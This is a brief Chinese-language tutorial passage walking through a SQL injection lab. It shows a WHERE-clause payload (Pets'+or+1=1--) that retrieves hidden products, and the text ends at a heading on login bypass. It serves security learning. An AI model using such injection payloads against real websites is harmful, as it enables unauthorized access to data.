


## 1、where子句中的sql注入漏洞允许检索隐藏数据

给的提示：

当选择一个商品类别，抓包显示：

他执行的语句是：select * from products where category = 'Pets' and released = 1

所以我们可以构造payload：

Pets'+or+1=1-- 

拼接完就是：

select * from products where category = 'Pets'+or+1=1-- and released = 1

这样就查出了没有发布的商品

## 2、允许绕过登录的 SQL 注入漏洞